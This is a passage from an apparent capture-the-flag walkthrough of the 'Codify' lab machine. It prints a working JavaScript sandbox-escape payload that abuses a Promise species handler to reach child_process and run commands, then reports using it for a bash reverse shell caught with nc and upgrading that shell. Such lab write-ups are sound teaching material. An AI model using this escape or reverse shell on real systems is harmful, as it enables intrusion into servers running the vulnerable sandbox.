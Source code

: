 This vulnerability is in the `Promise` handler:

```

async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch pwned'); }
            )
        }
    }
};
p.then();

```

It is the same as the previous one, though it returns `[object Object]`. Changing it to `ping` works here as well.

### Shell

I’ll update my payload to a simple [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw), and start `nc` listening on the same port:

![image-20240404092743068](/img/image-20240404092743068.png)

On sending the code, the site hangs, but there’s a connection at `nc` with a shell as the svc user:

```

oxdf@hacky$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.239 35468
bash: cannot set terminal process group (1264): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ 

```

I’ll upgrade my shell using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

svc@codify:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
svc@codify:~$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@hacky$ stty raw -echo; fg
nc -lvnp 443
            reset
svc@codify:~$

```
